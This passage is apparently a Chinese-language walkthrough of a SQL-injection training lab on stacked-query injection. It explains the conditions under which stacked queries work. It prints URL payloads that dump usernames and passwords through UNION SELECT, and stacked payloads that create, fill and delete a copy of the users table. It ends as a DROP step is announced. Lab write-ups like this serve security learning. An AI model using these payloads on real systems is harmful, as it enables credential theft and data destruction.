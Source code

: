 ```

?id=-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema='security' and table_name='users'--+

?id=-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_schema=0x7365637572697479 and table_name=0x7573657273--+

?id=-1' UNION SELECT 1,group_concat(concat_ws(':',username,password)),3 FROM security.users--+

?id=-1' UNION SELECT 1,group_concat(concat_ws(0x3a,username,password)),3 FROM security.users--+
```

但这一关是用来练习堆叠注入的

堆叠注入（**Stacked Queries Injection**）是一种允许攻击者在一次数据库请求中执行 **多条SQL语句**的注入技术。其核心是利用SQL语句的分隔符（如分号`;`）拼接恶意代码，常用于执行任意数据库操作（增删改查）。

**堆叠注入原理**

**基本条件**

- **数据库支持多语句执行**：  
  MySQL默认情况下 **不支持**堆叠注入（需特定驱动或配置，如PHP的`mysqli_multi_query`）。  
  SQL Server、PostgreSQL等数据库通常支持。

- **应用程序未过滤分号`;`**：  
  若代码直接拼接用户输入且未过滤分号，攻击者可插入分号分隔多条SQL语句。

所谓**堆叠注入**就是在原语句后加上分号，从而闭合前面的内容作为第一条 SQL 语句。然后在后面输入第二条的数据库操作语句，在条件允许可以被后端带入数据库执行。堆叠注入使用的范围非常有限，例如后端可能会限制 SQL 只执行一条语句。一旦这种漏洞存在，对数据库的破坏性是毁灭性的，因为这表示攻击者可以肆意对数据库进行操作。  
例如此处使用堆叠注入新建一张表，使用 CREATE TABLE 子句，该表将复制 users 表作为一张新的表存在。这种复制可以结合 SQL 注入爆出表名来复制，也可以用社会工程学来猜测。

```
?id=1';CREATE TABLE WhiteMoon LIKE users;--+
```

网页回显正常的信息，打开数据库发现security库中已经多了一张whitemoon表了。

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250419174448171.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250419174448171.png)

使用堆叠查询把 users 表中的数据插入新的表中，使用 INSERT INTO 子句实现。

```
?id=1';INSERT INTO WhiteMoon SELECT * FROM users;--+
```

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718141003428.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718141003428.png)

使用堆叠查询新建的表的所有记录删掉，使用 DELETE 子句实现。

```
?id=1';DELETE FROM WhiteMoon;--+
```

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718141003456.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718141003456.png)

使用堆叠查询把新建的表删掉，使用 DROP 子句实现。
